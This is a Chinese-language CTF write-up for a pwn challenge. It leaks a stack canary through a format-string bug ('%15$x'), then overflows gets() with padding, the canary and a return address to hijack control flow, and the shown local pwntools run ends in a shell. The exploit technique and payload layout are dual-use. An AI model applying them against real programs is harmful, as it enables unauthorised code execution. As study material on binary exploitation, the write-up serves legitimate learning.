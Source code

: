 binary_200题目源文件题解:

首先
objdump -d -M intel / disass main 看下程序大体内容  确定大概流程


```
gef➤  checksec
[+] checksec for '/home/evan/res/study_note/pwn/example/pwn200/code/binary_200'
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

配合代码看出可以通过格式化字符串漏洞泄漏canary 然后在通过第二个gets溢出修改return_addr 设置为`canary_protect_me`。此处的canary是因为buf产生的。所以看main的


main处断点发现

```
    0x804856a <main+0009>      mov    eax, gs:0x14
    0x8048570 <main+000f>      mov    DWORD PTR [esp+0x3c], eax
 →  0x8048574 <main+0013>      xor    eax, eax
    0x8048576 <main+0015>      mov    eax, ds:0x804a060
```

从gs:0x14处获取canary 然后存放在esp+0x3c处 

查看canary 为`0x7939b200`

```
gef➤  reg
$eax   : 0x7939b200
$ebx   : 0x0       
$ecx   : 0x7aac3b3b
$edx   : 0xffffd0d4  →  0x00000000
$esp   : 0xffffd050  →  0xf7fac000  →  0x001e3d6c
$ebp   : 0xffffd098  →  0x00000000
$esi   : 0xf7fac000  →  0x001e3d6c
$edi   : 0xf7fac000  →  0x001e3d6c

gef➤  x/wx $esp+0x3c
0xffffd08c:     0x7939b200
gef➤  

```




然后通过printf处断点去确定位置。 中间有个gets 我们输入AAAA 步进到printf 


```
gef➤  disass main
Dump of assembler code for function main:
   0x08048561 <+0>:     push   ebp
   0x08048562 <+1>:     mov    ebp,esp
   0x08048564 <+3>:     and    esp,0xfffffff0
   0x08048567 <+6>:     sub    esp,0x40
   0x0804856a <+9>:     mov    eax,gs:0x14
   0x08048570 <+15>:    mov    DWORD PTR [esp+0x3c],eax
=> 0x08048574 <+19>:    xor    eax,eax
   0x08048576 <+21>:    mov    eax,ds:0x804a060
   0x0804857b <+26>:    mov    DWORD PTR [esp+0xc],0x0
   0x08048583 <+34>:    mov    DWORD PTR [esp+0x8],0x2
   0x0804858b <+42>:    mov    DWORD PTR [esp+0x4],0x0
   0x08048593 <+50>:    mov    DWORD PTR [esp],eax
   0x08048596 <+53>:    call   0x8048440 <setvbuf@plt>
   0x0804859b <+58>:    mov    eax,ds:0x804a040
   0x080485a0 <+63>:    mov    DWORD PTR [esp+0xc],0x0
   0x080485a8 <+71>:    mov    DWORD PTR [esp+0x8],0x1
   0x080485b0 <+79>:    mov    DWORD PTR [esp+0x4],0x0
   0x080485b8 <+87>:    mov    DWORD PTR [esp],eax
   0x080485bb <+90>:    call   0x8048440 <setvbuf@plt>
   0x080485c0 <+95>:    lea    eax,[esp+0x14]
   0x080485c4 <+99>:    mov    DWORD PTR [esp],eax
   0x080485c7 <+102>:   call   0x80483f0 <gets@plt>
   0x080485cc <+107>:   lea    eax,[esp+0x14]
   0x080485d0 <+111>:   mov    DWORD PTR [esp],eax
   0x080485d3 <+114>:   call   0x80483e0 <printf@plt>
gef➤  b *0x080485d3
Breakpoint 2 at 0x80485d3: file stackguard.c, line 16.
```

继续执行并且输入`AAAA`

```
gef➤  telescope $esp -l 24
0xffffd050│+0x0000: 0xffffd064  →  "AAAA"        ← $esp
0xffffd054│+0x0004: 0x00000000
0xffffd058│+0x0008: 0x00000001
0xffffd05c│+0x000c: 0x00000000
0xffffd060│+0x0010: 0xf7fac3fc  →  0xf7fad2c0  →  0x00000000
0xffffd064│+0x0014: "AAAA"
0xffffd068│+0x0018: 0x0804a000  →  0x08049f14  →  <_DYNAMIC+0000> add DWORD PTR [eax], eax
0xffffd06c│+0x001c: 0x08048652  →  <__libc_csu_init+0052> add edi, 0x1
0xffffd070│+0x0020: 0x00000001
0xffffd074│+0x0024: 0xffffd144  →  0xffffd2fe  →  "/home/evan/res/study_note/pwn/example/pwn200/code/[...]"
0xffffd078│+0x0028: 0xffffd14c  →  0xffffd33b  →  "SHELL=/bin/bash"
0xffffd07c│+0x002c: 0xf7dfbd45  →  <__cxa_atexit+0025> add esp, 0x1c
0xffffd080│+0x0030: 0xf7fe3230  →  <_dl_fini+0000> push ebp
0xffffd084│+0x0034: 0x00000000
0xffffd088│+0x0038: 0x0804860b  →  <__libc_csu_init+000b> add ebx, 0x19f5
0xffffd08c│+0x003c: 0x7939b200
gef➤  p 0xffffd09c-0xffffd090
$3 = 0xc
```
这里得出args 15是canary 

这边计算args `0xffffd08c-0xffffd054`  在除以4那就是15 那么就通过%15$x获取canary


并且计算canary到return_addr之间需要填充的长度为`0xc`

那么第二个payload就是"A"*0x28+canary+"A"*0xc+return_addr

最后disass 得到`canary_protect_me`的地址`0x0804854d` 作为return_addr.

结果如下

```
[+] Starting local process './binary_200': pid 23007
/home/evan/res/study_note/pwn/example/pwn200/code/pwn200.py:5: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("%15$x")
[*] canary: 0xf96bf000
[*] Switching to interactive mode
$ ls
answer.md  binary_200  pwn200.c  pwn200.py  txt  txt_200
```